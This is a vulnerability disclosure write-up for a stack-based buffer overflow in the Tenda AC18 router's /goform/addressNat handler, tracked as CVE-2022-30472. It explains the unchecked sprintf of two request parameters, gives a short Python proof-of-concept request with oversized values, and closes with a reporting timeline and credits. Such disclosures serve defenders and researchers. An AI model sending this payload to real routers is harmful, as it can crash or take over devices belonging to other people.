

# Tenda Router AC18 Vulnerability

This vulnerability lies in the `/goform/addressNat` page which influences the lastest version of Tenda Router AC18. (The latest version is [AC18_V15.03.05.19(6318)](https://www.tenda.com.cn/download/detail-2683.html))

## Vulnerability Description

There is a **stack-based buffer overflow** vulnerability in function `fromAddressNat`.

In function `fromAddressNat` it reads 2 user provided parameters `entrys` and `mitInterface` into `v9` and `v8`, and these two variables are passed into function `sprintf` without any length check, which may overflow the stack-based buffer `s`.



So by requesting the page `/goform/addressNat`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/addressNat?"
url += "entrys=" + "s" * 0x200
url += "&mitInterface=" + "a" * 0x200

response = requests.get(url)
```

## Timeline

* 2022-05-05: Report to CVE & CNVD;
* 2022-05-26: CVE ID assigned (CVE-2022-30472)
* 2022-06-03: CNVD ID assigned (CNVD-2022-43056)

## Acknowledge

Credit to [@peanuts](https://github.com/peanuts62), [@Minghao Lin](https://github.com/MinghaoLin2000) and [@cylin](https://github.com/lcyfrank).
